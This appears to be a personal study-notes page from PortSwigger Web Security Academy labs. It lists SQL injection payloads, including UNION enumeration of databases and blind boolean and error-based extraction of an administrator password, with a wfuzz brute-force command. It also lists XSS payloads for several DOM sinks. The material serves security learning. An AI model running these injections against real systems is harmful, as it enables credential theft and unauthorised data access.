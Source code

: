```yaml
---
title: BurpSuite Lab
author: Yuchao
date: 2022-05-10 11:33:00 +0800
categories: [sec]
tags: [burpsuite]
math: true
mermaid: true
---
```


# sql injection

#### cheetsheet
<https://portswigger.net/web-security/sql-injection/cheat-sheet>

```
'+OR+1=1--
'+UNION+SELECT+NULL,NULL--

-- find columns are compatible with string data
'+UNION+SELECT+'abcdef',NULL,NULL--

-- oracle, find database type and version
'+UNION+SELECT+'abc','def'+FROM+dual--
'+UNION+SELECT+BANNER,+NULL+FROM+v$version--

-- mysql, find database type and verion
'+UNION+SELECT+'abc','def'#
'+UNION+SELECT+@@version,+NULL#

-- list database contents, not oracle
'+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--
'+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='users_abcdef'--

-- list database contents, oracle
'+UNION+SELECT+table_name,NULL+FROM+all_tables--
'+UNION+SELECT+column_name,NULL+FROM+all_tab_columns+WHERE+table_name='USERS_ABCDEF'--

-- blind, conditional responses
-- "Welcome back" message disappears if error
TrackingId=xyz' AND (SELECT 'a' FROM users LIMIT 1)='a
TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>3)='a
TrackingId=xyz' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a

-- blind, error based, 
TrackingId=qi1dv3ezFEfn1WHY' || (select '' from users where rownum=1) ||'; session=oAr6CBmB8X7rdA5tS8FQRfcfX1qELUtK
-- WHERE ROWNUM = 1 condition is important here to prevent the query from returning more than one row, which would break our concatenation. 
-- Conditional errors
-- You can test a single boolean condition and trigger a database error if the condition is true. Oracle: SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN to_char(1/0) ELSE NULL END FROM dual 
TrackingId=xyz'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
-- check if administrator exists.
Cookie: TrackingId=qi1dv3ezFEfn1WHY' || (SELECT CASE WHEN (length(password)>19) THEN to_char(1/0) ELSE NULL END FROM users where username='administrator' ) ||'; session=oAr6CBmB8X7rdA5tS8FQRfcfX1qELUtK
-- when 19, return code500, mean > 19 is true; when 20, return code200, mean > 20 is false.
TrackingId=xyz'||(SELECT CASE WHEN SUBSTR(password,1,1)='a' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
-- blind test password
-- wfuzz is much quicker than intruder.
wfuzz -H "Cookie: TrackingId=qi1dv3ezFEfn1WHY' || (SELECT CASE WHEN (SUBSTR(password,1,6)='1psbwFUZZ') THEN to_char(1/0) ELSE NULL END FROM users where username='administrator' ) ||'; session=oAr6CBmB8X7rdA5tS8FQRfcfX1qELUtK" -u https://aca41fa31e42c37cc0b00aa9001a0095.web-security-academy.net/filter?category=Pets -w /home/kali/wordlist/alphanum --sc 500
```

# Cross-site scripting

- url ``` web-security-academy.net/?search=<script>alert%281%29<%2Fscript> ```
- ``` <script> alert(1) </script>```

---

"View source" option won't work for DOM XSS testing 

---

document.write
```js
function trackSearch(query) {
	document.write('<img src="/resources/images/tracker.gif?searchTerms='+query+'">');
}
var query = (new URLSearchParams(window.location.search)).get('search');
if(query) {
	trackSearch(query);
}
```
``` "><svg onload=alert(1)> ```

---

innerHTML
```javascript
function doSearchQuery(query) {
    document.getElementById('searchMessage').innerHTML = query;
}
var query = (new URLSearchParams(window.location.search)).get('search');
if(query) {
    doSearchQuery(query);
}

```
``` <img src=1 onerror=alert(1)> ```

---

jQuery selector sink
```javascript
$(window).on('hashchange', function(){
    var post = $('section.blog-list h2:contains(' + decodeURIComponent(window.location.hash.slice(1)) + ')');
    if (post) post.get(0).scrollIntoView();
});
```

```javascript
<a id="author" href="javascript:alert(1)">0xZEN</a>
```
---

HTML ```<a>``` href Attribute
- ``` <a href="URL"> ```
- The URL of the link.
Possible values:
- An absolute URL - points to another web site (like href="http://www.example.com/default.htm")
- A relative URL - points to a file within a web site (like href="default.htm")
- Link to an element with a specified id within the page (like href="#section2")
- Other protocols (like https://, ftp://, mailto:, file:, etc..)
- A script (like href="javascript:alert('Hello');")    THIS ONE CAN BE USED TO XSS.

---

AngularJS expression

{{$on.constructor('alert(1)')()}}

---

Reflected DOM XSS
- reflected in json format
```javascript
{"results":[],"searchTerm":"asd"}
```
search: ``` \"-alert(1)}// ```
```javascript
{"results":[],"searchTerm":"\\"-alert(1)}//"}
```
- note:  ``` \ ``` can not be interpretered alone, so if only one \ will be error in json.
- ``` a = {"results":[],"searchTerm":"\\\"} ``` Error
- ``` a = {"results":[],"searchTerm":"\\\\"} ``` Good
- An arithmetic operator (in this case the subtraction operator) is then used to separate the expressions before the alert() function is called.
